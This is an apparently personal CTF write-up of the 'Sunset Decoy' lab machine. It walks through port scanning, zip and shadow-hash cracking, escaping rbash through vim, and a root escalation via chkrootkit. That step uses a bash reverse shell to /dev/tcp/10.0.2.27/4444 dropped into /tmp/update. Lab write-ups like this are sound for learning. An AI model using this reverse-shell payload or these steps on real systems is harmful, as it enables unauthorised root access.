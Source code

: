 ```yaml
---
title: Sunset Decoy
categories: [Proving Grounds, Play, Sunset]
tags: [Public Exploit, chrootkit, fcrackzip, hashcat, vim, PrivEsc]
image:
  path: https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2020/12/sunsetdecoy.png?fit=1200%2C864&w=640
  alt:  Sunset-Decoy Machine 🖥️
---
```



### Lets check the IP address first —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled.png)

```bash
IP : 10.0.2.49
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Decoy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.49
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 10:50 IST
Nmap scan report for 10.0.2.49
Host is up (0.00093s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:BA:A7:50 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%201.png)

Now lets brute force the password of zip file with `fcrackzip` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%202.png)

Got the password : `manuel`

Now Lets see what I got →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%203.png)

Now lets decrypt the hash from shadow file with `hashcat` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%204.png)

Now I got the credentials of user → 

```bash
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::

password : server
```
{: .nolineno}

Now let’s SSH into it ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%205.png)

Since it is running rbash so I need to convert it to bash for that lets see what I got —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%206.png)

Lets execute `honeypot.decoy` which have root privileges —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%207.png)

Lets run Leave a note command with runs on vim I think so , which that I can change the shell ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%208.png)

Now lets also set the PATH file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%209.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt 
35253d886842075b2c6390f35946e41f
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```
{: .nolineno}

Now lets enumerate freely —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2010.png)

Lets check the logs file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2011.png)

here I find extraction of `chkrootkit` which works as Antivirus purpose and wait I also found AV launch option in `honeypot.decoy` file so lets execute it →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2012.png)

Now I see it is executing the chkrootkit as root Lets find an exploit related to it —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2013.png)

After reading it I got the steps to perform this exploitation →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2015.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo "bash -c 'bash -i >& /dev/tcp/10.0.2.27/4444 0>&1'" > /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod +x /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```
{: .nolineno}

Lets wait for cronjob to execute and wait for nc respomse →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2016.png)

```bash
root@60832e9f188106ec5bcc4eb7709ce592:~# cat root.txt	
cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_

1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
root@60832e9f188106ec5bcc4eb7709ce592:~#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
